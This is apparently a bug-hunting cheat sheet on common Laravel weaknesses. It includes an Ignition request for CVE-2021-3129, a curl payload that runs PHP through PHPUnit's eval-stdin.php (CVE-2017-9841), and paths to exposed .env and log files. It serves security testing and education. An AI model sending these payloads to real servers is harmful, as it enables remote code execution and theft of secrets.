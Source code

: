 ```yaml
---
title: Laravel HackTricks
tags: [bug hunting, laravel]
categories: [bug hunting, laravel]
date: 2022-05-05 11:33:00
---
```



# Laravel Common Bugs

## Introduction
What would you do if you came across a website that uses Laravel?

## How to Detect
Usually in the HTTP response there is a header like this `Set-Cookie: laravel_session=`

1. Find the related CVE by checking laravel version
* How to find the laravel version

By checking the composer file in `https://example.com/composer.json`, sometimes the version is printed there. If you found outdated laravel version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-16542/product_id-38139/Laravel-Laravel.html)

Some example CVE:

- CVE-2021-3129 (Remote Code Execution)
```
POST /_ignition/execute-solution HTTP/1.1
Host: example.com
Accept: application/json
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "cve20213129", "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"}}
```

2. Laravel 4.8.28 ~ 5.x - PHPUnit Remote Code Execution (CVE-2017-9841)
```
curl -d "<?php echo php_uname(); ?>" http://example.com/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

3. Exposed environment variables 
* Full Path Exploit : http://example.com/.env

![Environment Variables](https://1.bp.blogspot.com/-EUTxgP5XE6Q/XkgB4SyWSbI/AAAAAAAAAQA/eqtALOjLKKA46si-lIosm6cDVmxByjzIQCLcBGAsYHQ/s1600/1.png)

4. Exposed log files
* Full Path Exploit : http://example.com/storage/logs/laravel.log

5. Laravel Debug Mode Enabled
* Try to request to https://example.com using POST method (Error 405)
* Using [] in paramater (ex:example.com/param[]=0)

![Laravel Debug Mode](https://hacken.io/wp-content/uploads/2019/07/laravel-screen.png)

